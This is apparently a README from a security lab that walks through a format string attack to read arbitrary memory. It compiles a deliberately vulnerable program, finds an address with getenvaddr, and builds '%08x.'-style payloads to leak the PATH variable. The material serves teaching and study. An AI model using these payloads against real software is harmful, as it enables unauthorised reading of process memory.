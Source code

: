 ## Format string attack: arbitrary read

This example demonstrates arbitrary memory location read
using format string attack.

1. Compile included program to determine where PATH is when 
running our vulnerable program:
   * See ../../common/getenv.c
2. Compile our vulnerable program:
   * gcc -mpreferred-stack-boundary=2 -g -o fsa fsa.c 
3. Run getenvaddr to determine the memory address we're going 
to read with format string attack:
   * ./getenvaddr PATH fsa
4. Run our vulnerable program with a suitably crafted input to 
determine how far we need to move the stack pointer before treating 
memory as string:
   * ./fsa $(printf "AAAA").$(python -c "print('%08x.') * 20")
   * Note how many bytes there are to 0x41414141 (count)
5. Run our vulnerable program with count * '%08x.' + %s to read memory 
address we found with getenvaddr:
   * ./fsa $(printf \xff\xff\xff\xff).$(python -c "print('%08x.' * count + '%s'")
   * Note \xff\xff\xff\xff should be replaced with the memory address 
we found with getenvaddr in litte endian (getenvaddr will print the address 
in big endian)
   * This should print the PATH variable when our vulnerable program
was executed

--

Notes:
* In the examples we're doing everything in main.  To 'force' the 
format string attack to work, we have to introduce the items on 
the stack using strcpy or some other method.  In the real world the 
unsanitised format string would probably be passed to another function 
which would place it on the stack. 
